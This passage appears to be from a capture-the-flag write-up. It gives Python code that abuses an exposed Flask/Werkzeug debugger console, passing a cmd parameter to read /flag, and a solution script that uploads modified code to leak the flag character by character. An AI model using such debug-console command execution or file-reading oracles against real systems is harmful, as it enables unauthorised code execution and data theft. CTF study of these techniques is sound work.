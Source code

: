 ```python
with urllib.request.urlopen('http://flask:5000/console?&__debugger__=yes&cmd=print(open(%27%2Fflag%27%2C%27r%27).read())&frm=0&s='+secret) as response:
    console = response.read()

ff = console.decode('ascii').split('\n')[1]
if(ff[]==):
	print('ddd')
with open('/flag', 'r') as f:
	data = f.read()
	print(data, end = '')

# */
```

## Solution

```python
import requests
from bs4 import BeautifulSoup

session = requests.session()

url = 'https://pyscript.ctf.zoolab.org/'

wordlist = ['}','a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','0','1','2','3','4','5','6','7','8','9','_']
cnt=5
while(True):
	for i in wordlist:
		fin = open("sol", "rt")
		fout = open("search", "wt")
		for line in fin:
			fout.write(line.replace('if(ff[]==):', 'if(ff['+str(cnt)+']=='+"'"+i+"'):"))
		fin.close()
		fout.close()
		with open('search', 'r') as f:
			response = session.post(url, files = {'file': f})

		soup = BeautifulSoup(response.text, "html.parser")
		if(soup.text[0]=='F'):
			flag = i
			print(flag,end='')
			cnt+=1
			break
	if(flag=='}'):
		break
```

# [0x00] Nine
